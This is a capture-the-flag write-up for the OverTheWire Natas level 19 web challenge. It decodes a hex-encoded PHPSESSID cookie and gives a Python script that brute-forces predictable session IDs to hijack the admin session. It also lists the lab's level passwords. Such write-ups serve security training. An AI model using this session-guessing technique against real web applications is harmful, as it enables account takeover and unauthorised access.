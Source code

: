 # Level 18 → Level 19

## Details
Username: `natas19`<br />
Password: `8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s`<br />
URL:      http://natas19.natas.labs.overthewire.org

## Solution
![](0.png)

So, let's try to see what the `PHPSESSID` is when the username is `UserName` and the password is `Password123`:

![](1.png)

![](2.png)

![](3.png)

So what is `3339372d557365724e616d65`? Let's say that after many challenges in reversing (for example, [microcorruption](https://github.com/SimchaTeich/Microcorruption)) I immediately recognize **hexadecimal characters**... (yes it's very strange). Let's see what this string means:

```python
print(bytes.fromhex('3339372d557365724e616d65'))
# Output: b'397-UserName'
```

We have now discovered the format, so we can immediately do a brute force similar to the previous challenge. We will of course remember that it is likely that the username will be `"admin"` and we will build the following code:

```python
from requests import get
from requests.auth import HTTPBasicAuth

# Current level details
natas19_username = "natas19"
natas19_password = "8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s"

# GET HTTP details
URL = "http://natas19.natas.labs.overthewire.org/?username=admin&password=admin"
AUTH = HTTPBasicAuth(natas19_username, natas19_password)
COOKIES = {'PHPSESSID': None}

res = None
for i in range(1, 640 + 1):
    COOKIES['PHPSESSID'] = bytes.hex(str(i).encode() + b'-admin')
    res = get(url=URL, auth=AUTH, cookies=COOKIES)
    if "Password" in res.text:
        print(f"admin PHPSESSID value is: {COOKIES['PHPSESSID']} ({str(i)+'-admin'})")
        break
    else:
        print(f"admin PHPSESSID value is NOT: {COOKIES['PHPSESSID']} ({str(i)+'-admin'})")

print(res.text)
```

Results:

![](4.png)

## Password for the next level:
```
guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH
```
